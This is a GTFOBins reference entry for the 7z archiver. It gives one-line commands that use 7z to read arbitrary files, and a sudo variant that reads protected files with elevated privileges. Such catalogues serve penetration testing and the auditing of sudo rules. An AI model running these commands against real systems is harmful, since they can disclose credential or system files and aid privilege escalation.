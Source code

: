 # GTFOBin: 7z

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
7z a -ttar -an -so $LFILE | 7z e -ttar -si -so
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo 7z a -ttar -an -so $LFILE | 7z e -ttar -si -so
```